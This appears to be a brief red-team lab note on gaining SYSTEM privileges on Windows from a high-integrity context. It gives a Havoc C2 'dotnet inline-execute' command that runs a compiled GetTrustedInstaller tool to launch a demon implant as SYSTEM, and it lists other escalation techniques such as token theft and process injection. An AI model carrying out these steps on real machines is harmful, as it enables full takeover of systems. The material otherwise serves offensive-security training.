


# Lab - GetSystem

A very simple lab stat shows you another way of getting SYSTEM when running in a high integrity context.

<https://github.com/rara64/GetTrustedInstaller>

Compile the code and upload with updog2 to kali /opt/Havoc/assemblies

From your demon session in Havoc C2 Client
```bash
dotnet inline-execute /opt/Havoc/assemblies/GetTrustedInstaller.exe "c:\temp\demon.x64.exe"
```




We have seen once we are in high ingrity level, we can get system by

- injecting into a system process
- named pipe race condition (not in the training)
- spawn a child process from a system process
- steal (duplicate) a token from a system process
- dll sideload / Unquoted Service Path using a process runnin as SYSTEM.